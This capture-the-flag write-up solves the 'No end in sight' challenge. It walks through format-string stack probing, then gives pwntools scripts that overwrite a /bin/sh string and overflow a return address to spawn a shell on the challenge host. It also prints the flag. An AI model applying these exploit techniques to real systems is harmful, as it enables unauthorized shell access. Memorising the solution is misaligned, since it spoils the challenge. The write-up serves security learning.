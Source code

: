 # No end in sight
<p align="center">
  <img src="Attachments/Description.png" />
</p>

## FLAG:
`GPNCTF{Th4nks_f0r_sav1ng_my_pr3ci0us_/bin/sh}`

## Solution
The challenge provides the following source code in the [attachment](Attachments/no-end-in-sight.tar.gz):

```c
#include <stdio.h>
#include <stdlib.h>

// gcc -no-pie -fno-stack-protector -o no-end-in-sight no-end-in-sight.c

char BINSH[8] = "/bin/sh";

void shutoff() {
	execve(&BINSH, NULL, NULL);
}

int main() {
	char buf[0xff];
	fgets(buf, 0xff, stdin);

	BINSH[0] = 0;
	printf(buf);
	
	fgets(buf, 0x110, stdin);
	return 0;
}
```

The challenge provides for the insertion of 2 inputs which are saved in the same buffer exceeding its real size and this leads to overwriting memory areas that do not belong to those allocated for the buffer (which has a fixed size). Furthermore, the first input is shown on the screen via *printf* and this suggests the possibility of *format string* with the possibility of reading the stack. Also, the goal of my challenge is to run the `shutoff` function to execute the command saved in the `BINSH` buffer, whose first character, however, is overwritten with a null byte. 

To solve the challenge we first try to exploit the *format string* and to verify its presence we send the following payload: `%p %p %p %p %p %p %p %p`

```bash
└─$ ./no-end-in-sight 
%p %p %p %p %p %p %p %p 
0x12a62a1 0xfbad2288 0x1 0x12a62b8 0x21001 0x7025207025207025 0x2520702520702520 0xa70252070252070
```

So we can use the format string to go and redefine the contents of the *BINSH* buffer, however we need to understand what is the offset starting from which the format string takes effect. To do this we add an input to the previously illustrated payload so as to understand after what we display it.

```bash
└─$ ./no-end-in-sight
AAAAAAAA %p %p %p %p %p %p %p %p
AAAAAAAA 0x121e2a1 0xfbad2288 0x1 0x121e2c1 0x21001 0x4141414141414141 0x2520702520702520 0x2070252070252070
```

Using the information obtained, I wrote a script using the `fmtstr_payload` method of *pwntools* to create the payload which will correctly set the contents of *BINSH*.

```python
from pwn import *

if args.REMOTE:
    p = remote('no-end-in-sight-0.chals.kitctf.de', 1337, ssl=True)
else:
    p = process("./no-end-in-sight")
    if args.GDB:
        gdb.attach(p, gdbscript="""
            break main
        """)

if args.DEBUG:
    p = gdb.debug("./no-end-in-sight")

exe = context.binary = ELF("./no-end-in-sight", checksec=False)

payload = fmtstr_payload(6, {exe.symbols.BINSH: b"/bin/sh"})
p.sendline(payload)

p.interactive()
```

At this point it is necessary to understand after how many characters the return address is overwritten. To figure this out we use *pwntools* once again with the ability to run gdb and then with the `cyclic` command figure out the correct number of characters.

<p align="center">
  <img src="Attachments/offset.png" />
</p>

To automate what has been said, the following [script](Attachments/solve.py) was created.

```python
from pwn import *

if args.REMOTE:
    p = remote('no-end-in-sight-0.chals.kitctf.de', 1337, ssl=True)
else:
    p = process("./no-end-in-sight")
    if args.GDB:
        gdb.attach(p, gdbscript="""
            break main
        """)

if args.DEBUG:
    p = gdb.debug("./no-end-in-sight")

exe = context.binary = ELF("./no-end-in-sight", checksec=False)

payload = fmtstr_payload(6, {exe.symbols.BINSH: b"/bin/sh"})
p.sendline(payload)

payload = b"A" * 264 + p64(exe.symbols.shutoff)
p.sendline(payload)

p.interactive()
```
